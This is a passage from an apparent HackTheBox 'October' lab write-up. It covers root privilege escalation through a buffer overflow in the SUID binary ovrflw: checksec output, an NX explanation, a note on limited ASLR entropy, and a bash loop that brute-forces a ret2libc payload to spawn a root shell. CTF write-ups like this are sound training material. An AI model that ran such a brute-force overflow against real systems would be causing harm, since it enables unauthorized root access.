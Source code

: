NX (or DEP - Data Execution Prevention) marks the stack as non-executable, preventing attackers from executing shellcode placed on the stack. "NX enabled" means that the stack is marked as non-executable, enhancing security.

`checksec -file=ovrflw`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/october/image-31.png)

After examining the output of **ldd**, it is apparent that the memory addresses primarily fluctate between **0xb7500000** and **0xb76ff000**. This suggests a limited variation of around 512 possibilities with only one byte and one bit changing between addresses. 

### Buffer Overflow

Using gdb, I can find ovrflw offset and can create a loop for it to get a shell as the root:


```bash
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/october/image-34.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/october/image-33.png)

Read about the process in more detail from [0xdf writeup](https://0xdf.gitlab.io/2019/03/26/htb-october.html#privesc-to-root)

## References
- https://github.com/diego-treitos/linux-smart-enumeration
- https://0xdf.gitlab.io/2019/03/26/htb-october.html#privesc-to-root

